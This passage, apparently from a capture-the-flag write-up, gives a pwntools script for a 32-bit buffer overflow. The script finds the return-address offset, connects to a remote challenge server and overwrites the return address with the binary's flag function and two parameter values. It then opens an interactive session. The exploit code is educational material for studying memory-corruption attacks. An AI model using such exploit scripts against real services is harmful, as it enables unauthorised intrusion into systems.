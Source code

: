 ```python
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=True) # You can set this to false to not see checksec info
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP/RIP offset
offset = find_ip(cyclic(200))

# Connect to remote server
io = remote('167.172.61.89', 30056)

# Build the payload
payload = flat({
    offset: [
        # 32-bit the params follow the function
        elf.functions.flag,
        0x0,  # Original: 0x0 . This is the junk parameter -- This can be in hex or a 4-byte word i.e. ("junk"). Return pointer - try changing to main() and step through with GDB!
        0xdeadbeef,  # Param_1
        0xc0ded00d,  # Param_2
    ]
})

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendlineafter(b':', payload)

# Get flag
io.interactive()
```

Result:

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

